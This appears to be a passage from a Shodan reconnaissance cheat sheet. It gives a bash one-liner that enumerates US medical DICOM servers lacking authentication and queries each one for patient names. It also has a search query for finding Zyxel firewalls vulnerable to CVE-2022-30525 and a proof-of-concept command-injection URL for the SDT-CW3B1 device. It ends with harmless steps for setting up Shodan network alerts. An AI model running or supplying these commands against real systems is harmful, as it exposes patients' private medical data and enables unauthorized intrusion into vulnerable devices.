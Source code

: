 Count patient names in US exposed DICOM medical servers with no authentication

```bash
$ shodan download search "tag:medical" "country:us"; shodan parse --fields ip_str search.json.gz > usa_dicom_ip ; for i in `cat usa_dicom_ip` ; do echo "///// Now connecting to $i ////" ; findscu -v -to 1 -P -k PatientName="*" $i 104 >> us_dicom_patient_names; wc -l us_dicom_patient_names ; done
```
## Zyxel Firewall Unauthenticated Remote Command Injection

Rapid7 discovered and reported a vulnerability that affects Zyxel firewalls supporting Zero Touch Provisioning (ZTP), which includes the ATP series, VPN series, and the USG FLEX series (including USG20-VPN and USG20W-VPN). The vulnerability, identified as CVE-2022-30525, allows an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device.

```
title:"USG FLEX 100","USG FLEX 100w","USG FLEX 200","USG FLEX 500","USG FLEX 700","USG FLEX 50","USG FLEX 50w","ATP100","ATP200","ATP500","ATP700"
```

## SDT-CW3B1 1.1.0 - OS Command Injection (CVE-2021-46422)

```
poc:http://<IP>/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

## Setting Up Shodan for Target Monitoring

1. Determine your home IP or target of interest's IP address

```bash
root@RoseSecurity# shodan myip
69.69.69.69
```

2. Create network alert

```bash
root@RoseSecurity# shodan create home 69.69.69.69
Successfully created network alert!
Alert ID: 34W09AETJKAHEDPX
```

3. Confirm that alert is generated

```bash
root@RoseSecurity# shodan alert info home 
home
Created: 2022-03-01:69:69:69000
Notifications: Disabled

Network Range(s):
> 69.69.69.69
Triggers:
> any
```
